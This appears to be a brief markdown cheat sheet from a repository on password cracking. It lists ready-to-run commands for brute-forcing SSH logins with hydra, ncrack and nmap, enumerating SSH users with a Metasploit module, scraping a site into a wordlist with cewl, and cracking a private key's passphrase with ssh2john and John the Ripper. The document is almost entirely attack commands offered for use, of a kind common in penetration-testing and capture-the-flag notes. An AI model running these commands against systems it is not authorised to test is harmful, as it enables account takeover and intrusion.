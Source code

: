 # Password cracking
### Cracking SSH Password

```bash
hydra -L <username list> -P <password list> 10.10.10.10 ssh
```
```bash
ncrack -U <usernames list> -P <passwords list> ssh://10.10.10.10
```
```bash
nmap -p 22 --script ssh-brute --script-args userdb=users.lst,passdb=pass.lst --script-args ssh-brute.timeout=4s <ip>
```

## Create Wordlist
### If HTTP/S and SSH are running
```bash
cewl http://<ip> > wordlist.txt
```

## Metasploit
```bash
msfconsole
```

```bash
use auxiliary/scanner/ssh/ssh_enumusers
```

## Crack Private Key

### Get hash
```bash
ssh2john private_key.txt > hash.txt
```

### Crack hash
```bash
john --wordlist=wordlist.txt hash.txt
```
